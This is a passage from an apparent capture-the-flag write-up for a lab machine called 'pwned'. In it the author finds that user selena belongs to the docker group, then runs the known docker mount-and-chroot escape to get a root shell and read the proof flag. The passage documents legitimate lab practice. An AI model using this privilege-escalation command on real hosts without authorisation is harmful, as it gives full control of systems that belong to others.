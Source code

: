selena is part of the docker group. Let's see if docker is running:

```bash
selena@pwned:/$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
    link/ether 02:42:90:85:bc:dd brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
4: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:bf:53:5c brd ff:ff:ff:ff:ff:ff
    inet 192.168.171.95/24 brd 192.168.171.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:febf:535c/64 scope link
       valid_lft forever preferred_lft forever
selena@pwned:/$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
privesc             latest              09ae39f0f8fc        2 years ago         88.3MB
<none>              <none>              e13ad046d435        2 years ago         88.3MB
alpine              latest              a24bb4013296        2 years ago         5.57MB
debian              wheezy              10fcec6d95c4        4 years ago         88.3MB
```

It is, and judging by one of the names, this is the intended route to privesc. There's a GTFOBins [entry](https://gtfobins.github.io/gtfobins/docker/) on this. Just run the command and I'm root:

```bash
selena@pwned:/$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
proof.txt  root.txt
# cat proof.txt
cat proof.txt
7a1ec1279226bf681a1a8e6d5c78c430
# hostname -I
hostname -I
172.17.0.2
```

